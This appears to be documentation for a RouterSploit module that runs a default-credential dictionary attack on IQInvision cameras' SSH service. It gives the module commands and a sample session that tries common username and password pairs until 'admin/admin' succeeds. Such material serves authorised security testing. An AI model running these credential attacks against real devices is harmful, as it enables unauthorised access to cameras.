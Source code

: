 ## Description

Module performs dictionary attack with default credentials against IQInvision Camera SSH service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/iqinvision/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/iqinvision/ssh_default_creds
rsf (IQInvision Camera Default SSH Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (IQInvision Camera Default SSH Creds) > run
[*] Running module...
[*] Target exposes SSH service
[*] Starting default credentials attack against SSH service
[*] thread-0 thread is starting...
[-] SSH Authentication Failed - Username: 'admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'admin' Password: '123456'
[-] SSH Authentication Failed - Username: 'Admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'Admin' Password: '123456'
[+] SSH Authentication Successful - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 2.3932292461395264 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     22       ssh         admin        admin 

```
